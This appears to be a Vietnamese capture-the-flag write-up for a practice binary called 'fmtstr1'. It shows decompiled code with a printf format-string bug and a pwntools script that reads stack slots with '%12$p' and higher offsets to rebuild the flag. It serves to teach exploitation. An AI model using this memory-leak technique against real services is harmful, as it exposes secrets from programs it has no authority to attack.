



**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
fmtstr1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=281c495659f082f89ec3055ce30a45e3497604d8, for GNU/Linux 3.2.0, not stripped
```

Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int fd; // [rsp+Ch] [rbp-134h]
  char format[8]; // [rsp+10h] [rbp-130h] BYREF
  __int64 v6; // [rsp+18h] [rbp-128h]
  __int64 v7; // [rsp+20h] [rbp-120h]
  __int64 v8; // [rsp+28h] [rbp-118h]
  __int64 buf[34]; // [rsp+30h] [rbp-110h] BYREF

  buf[33] = __readfsqword(0x28u);
  *(_QWORD *)format = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  memset(buf, 0, 256);
  init(argc, argv, envp);
  fd = open("./flag.txt", 0, 0LL);
  if ( fd < -1 )
  {
    puts("Cannot open flag.txt");
    exit(0);
  }
  read(fd, buf, 256uLL);
  close(fd);
  printf("Your format string: ");
  read(0, format, 31uLL);
  printf(format);
  return 0;
}
```

Chương trình đọc file flag.txt rồi cho phép người dùng nhập vào chuỗi format rồi in giá trị chuỗi format ra.

Ở câu lệnh ```printf(format);``` đã có lỗi format string.

**2. Ý tưởng**

Biến lưu giá trị file bằng là local nên sẽ lưu trên stack nên sẽ thử leak bằng %p.

**3. Khai thác**

Đặt breapoint sau lệnh read flag để xem flag nằm ở đâu trên stack.



Ta thấy cộng với 5 ở phần đầu về trước flag có 6 giá trị trên stack nên flag có giá trị từ %12$p. Kiểm tra thử xem.



Như vậy đã chính xác.

Ta có script như sau:

```
from pwn import *

exe = ELF('fmtstr1', checksec = False)

output = b''
for i in range(12, 20):
    r = process(exe.path)
    r.sendafter(b'string:', f'%{i}$p')
    leak = int(r.recvall(), 16)
    output += p64(leak)
    if b'}' in output:
        print(output)
        exit(0)

r.interactive()
```

**4. Lấy flag**


